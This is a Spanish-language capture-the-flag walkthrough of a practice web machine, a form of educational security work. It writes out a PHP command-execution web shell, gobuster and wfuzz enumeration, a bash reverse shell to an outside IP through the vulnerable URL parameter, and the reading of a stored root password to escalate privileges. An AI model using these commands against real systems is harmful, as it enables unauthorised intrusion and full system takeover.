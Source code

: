 # Herramientas
- Nmap
- Gobuster
- SecLists
# Procedimiento
Escaneamos con nmap los puertos y nos muestra que solamente está habilitado el puerto 80.
![[Pasted image 20250716140218.png]]
Al entrar a la página nos aparece esto:
![[Pasted image 20250716140254.png]]

Si exploramos la página no vemos ningún comentario en el código, pero al inferior notamos esto:
![[Pasted image 20250716140338.png]]

Nos dirigimos a tmp pero no hay nada.
![[Pasted image 20250716140355.png]]

Empleamos la herramienta Gobuster para listar los directorios de la página web y nos encontramos con un `warning.html`. El comando utilizado es:
```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://172.1  
7.0.2 -x .php,.py,.txt,.html
```
![[Pasted image 20250716140447.png]]
Al entrar en  `warning .html`, nos aparece esto:
![[Pasted image 20250716140558.png]]

Podemos suponer que `shell.php` luce así:
```php
<?php
	system($_GET['cmd']);
?>
```

Por lo que ejecutamos el siguiente comando para encontrar el parámetro requerido:
NOTA: `--hl=0` sirve para que no nos muestren los resultados que devuelven el número de líneas igual a 0.
```bash
wfuzz -c --hl=0 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt http:  
//172.17.0.2/shell.php?FUZZ=id
```

Y logramos encontrar el parámetro (parameter, vaya vaya):
![[Pasted image 20250716141605.png]]

Al ingresar a esta parte nos muestra esto:
![[Pasted image 20250716141645.png]]

Nos ponemos en escucha por el puerto 443 con netcat:
```
nc -nlvp 443
```

Y en la URL vulnerable debe ir:
```
http://172.17.0.2/shell.php?parameter=bash -c "bash -i >%26 /dev/tcp/192.168.1.19/443 0>%261"
```

Recordar que donde está `192.168.1.19` debemos poner nuestro propia IP, esto se consigue colocando `ip a` en la terminal (usualmente está en la interfaz wlan0 o eth0). Una vez hecho esto, conseguimos una reverse shell:
![[Pasted image 20250716142125.png]]Una vez hecho esto, podemos ir a la carpeta que se nos mostró en un inicio:
```
cd ~/tmp
ls -la
total 12  
drwxrwxrwt 1 root root 4096 Jul 16 17:59 .  
drwxr-xr-x 1 root root 4096 Jul 16 17:59 ..  
-rw-r--r-- 1 root root   21 Apr 12  2024 .secret.txt

cat .secret
contraseñaderoot123

su root

whoami
root
```

Y una vez más, hemos logrado hackear esta máquina y elevar nuestros privilegios :3
